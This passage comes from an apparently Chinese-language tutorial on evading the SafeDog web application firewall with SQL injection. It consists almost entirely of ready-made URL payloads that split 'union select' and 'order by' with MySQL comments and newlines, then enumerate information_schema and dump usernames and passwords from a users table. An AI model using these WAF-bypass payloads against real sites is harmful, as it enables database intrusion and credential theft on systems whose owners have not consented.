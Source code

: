 
```
`#字段名``?id=-1%20union%20all%23%0a%20select%201,group_concat(%23%0acolumn_name),3 from information_schema.columns where table_name=0x7573657273%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#字段内容``?id=-1%20union%20all%23%0a%20select%201,group_concat(%23%0a0x7e,username,password),3 from users%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

  

### **第五种：字符型**

– - 是mysql的注释符 然后加上%0a 换行。安全狗正则匹配order by,union select。并不单纯匹配某一个单词函数-- -a%0a

```
`#字段数``?id=1 order -- -a%0a by 3%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

```
`#数据库``?id=-1 union-- -a%0a select 1,database-- -a%0a(),3%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#表名``?id=-1 union-- -a%0a select 1,group_concat(-- -a%0atable_name),3 from information_schema.tables where table_schema=0x7365637572697479%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#字段名``?id=-1 union-- -a%0a select 1,group_concat(-- -a%0acolumn_name),3 from information_schema.columns where table_name=0x7573657273%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

```
`#字段内容``?id=-1 union-- -a%0a select 1,group_concat(-- -a%0a0x7e,username,password),3 from users%23`
```
